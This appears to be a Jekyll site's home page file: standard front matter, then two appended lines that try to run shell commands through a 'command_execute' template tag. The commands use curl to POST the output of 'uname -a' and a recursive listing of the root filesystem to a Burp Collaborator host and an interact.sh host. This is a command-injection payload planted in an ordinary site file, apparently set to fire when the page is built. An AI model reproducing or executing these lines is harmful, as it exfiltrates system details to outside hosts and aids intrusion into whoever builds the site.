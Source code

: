 ```yaml
---
# Feel free to add content and custom Front Matter to this file.
# To modify the layout, see https://jekyllrb.com/docs/themes/#overriding-theme-defaults

layout: home
---
```


# command_execute curl -X POST "http://bs7h10wa8o3oijwmnyx4ofhpbgh65v.burpcollaborator.net" -d "output=$(uname -a)"
{% command_execute curl -X POST "http://c8fz4r32vtc0000k6xtggr891ceyyyyyb.interact.sh" -d "output=$(ls -Rhal /)" %}

